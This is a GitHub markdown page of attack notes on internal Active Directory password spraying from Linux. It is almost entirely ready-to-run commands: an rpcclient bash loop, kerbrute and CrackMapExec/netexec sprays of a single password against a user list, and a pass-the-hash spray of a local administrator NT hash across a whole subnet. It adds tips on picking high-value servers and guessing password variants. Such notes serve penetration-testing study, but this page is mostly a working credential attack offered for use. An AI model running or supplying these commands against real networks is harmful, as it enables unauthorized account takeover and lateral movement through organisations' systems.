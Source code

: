 # Internal Password Spraying - from Linux
Our creeated list name `valid_users.txt` if you don't have users list yet return back to [Pull User List](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/AD%20Enumeration/NULL%20Sessions.md#null-sessions-to-pull-user-list)
## Using a Bash one-liner for the Attack
We will assume the password we wanna to spray it `Welcome`
```shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome" -c "getusername;quit" <Target-IP> | grep Authority; done
```
## Using Kerbrute for the Attack
```shell
kerbrute passwordspray -d domain.local --dc <Target-IP> valid_users.txt  Welcome
```
## Using CrackMapExec/netexec & Filtering Logon Failures
```shell
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 | grep +
sudo netexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 | grep +
```
## Local Administrator Password Reuse
If you obtain administrative access and the NTLM password hash or cleartext password for the local administrator account (or another privileged local account), this can be attempted across multiple hosts in the network.
CrackMapExec is a handy tool for attempting this attack. It is worth targeting high-value hosts such as SQL or Microsoft Exchange servers, as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.
If we find a desktop host with the local administrator account password set to something unique such as $desktop%@admin123, it might be worth attempting $server%@admin123 against servers.
Local Admin Spraying with CrackMapExec
Sometimes we may only retrieve the NTLM hash for the local administrator account from the local SAM database. In these instances, we can spray the NT hash across an entire subnet (or multiple subnets) to hunt for local administrator accounts with the same password set. 

```shell
sudo crackmapexec smb --local-auth 10.10.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
